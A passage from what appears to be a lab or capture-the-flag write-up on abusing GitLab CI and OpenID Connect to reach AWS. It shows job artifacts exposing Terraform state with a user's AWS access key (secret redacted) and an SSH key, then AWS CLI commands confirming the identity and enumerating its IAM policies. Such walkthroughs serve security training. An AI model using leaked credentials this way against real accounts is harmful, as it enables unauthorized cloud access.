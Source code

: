 After job finishes, download a zip file containing the artifacts.

![](abuse-openid-connect-and-gitlab-for-aws-access-11.png)

`backup.txt` contains terraform output and AWS credentials related to `louise` user. But we also have ssh key file `ec2.pem`, which could mean that there's EC2 instance
```
└─$ cat backup.txt     
      "name": "louise",
      "provider": "provider[\"registry.terraform.io/hashicorp/aws\"].child_two",
      "instances": [
        {
          "schema_version": 0,
          "attributes": {
            "create_date": "2025-08-30T14:07:56Z",
            "encrypted_secret": null,
            "encrypted_ses_smtp_password_v4": null,
            "id": "AKIAYPXUTY36S7SGENVM",
            "key_fingerprint": null,
            "pgp_key": null,
            "secret": "<REDACTED>",
            "ses_smtp_password_v4": "<REDACTED>",
            "status": "Active",
            "user": "louise"
          },
<SNIP>
```

Credentials are valid and we can authenticate as `louise`
```
└─$ aws sts get-caller-identity
{
    "UserId": "AIDAYPXUTY36RBQFORF7M",
    "Account": "583554811645",
    "Arn": "arn:aws:iam::583554811645:user/louise"
}
```

If we try listing attached policies, we find `ViewIamPermissions`
```
└─$ aws iam list-attached-user-policies --user-name louise
{
    "AttachedPolicies": [
        {
            "PolicyName": "ViewIamPermissions",
            "PolicyArn": "arn:aws:iam::583554811645:policy/ViewIamPermissions"
        }
    ]
}

```

We can't enumerate EC2 instances
```
└─$ aws ec2 describe-instances                            

An error occurred (UnauthorizedOperation) when calling the DescribeInstances operation: You are not authorized to perform this operation. User: arn:aws:iam::583554811645:user/louise is not authorized to perform: ec2:DescribeInstances because no identity-based policy allows the ec2:DescribeInstances action
```
